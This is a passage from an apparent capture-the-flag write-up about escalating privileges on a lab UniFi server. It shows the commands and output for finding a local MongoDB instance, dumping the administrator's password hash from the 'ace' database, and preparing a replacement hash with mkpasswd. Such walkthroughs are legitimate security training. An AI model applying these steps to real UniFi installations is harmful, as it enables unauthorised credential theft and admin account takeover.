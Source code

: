 ## Privilege Escalation

The article states we can get access to the administrator panel of the `UniFi` application and possibly extract SSH secrets used between the appliances. First let's check if MongoDB is running on the target system, which might make it possible for us to extract credentials in order to login to the administrative panel.

`ps aux | grep mongo`

	unifi@unified:/usr/lib/unifi$ ps aux | grep mongo
	ps aux | grep mongo
	unifi         67  0.3  4.2 1104776 85648 ?       Sl   12:43   0:03 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
	unifi        684  0.0  0.0  11468  1000 pts/0    S+   13:01   0:00 grep mongo

We can see MongoDB is indeed running on the target system, on `port 27117`.

We can use the mongo command line utility to interact with the MongoDB service in hopes of extracting the admin password.
A quick google search using the keywords `UniFi Default Database` shows that the default database name for the `UniFi` app is `ace`.

We can use the `db.admin.find()` function to enumerate users within the database.
`mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"

	[*** SNIP ***]
	MongoDB shell version v3.6.3
	connecting to: mongodb://127.0.0.1:27117/ace
	MongoDB server version: 3.6.3
	{
		"_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
		"name" : "administrator",
		"email" : "administrator@unified.htb",
		"x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
		"time_created" : NumberLong(1640900495),
		"last_site_name" : "default",
		"ui_settings" : {
	[*** SNIP ***]

We can see the `x_shadow` property that belongs to the `administrator` with the value of `$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.`
That is the password hash.

At this stage, we can go two ways about this finding:
- We either crack the admin user's password hash to gain admin access, or
- we simply change the hash with our very own created hash in order to replace the administrator password and authenticate to the admin panel on the website.

We opt for the second approach this time. To do so, we can use the `mkpasswd` command line utility.
The `$6$` is the identifier for the hashing algorithm that is being used for the original password, which is SHA-512 in this case. Therefore, we will have to make a hash of the same type.
`mkpasswd -m sha-512 Password1234`
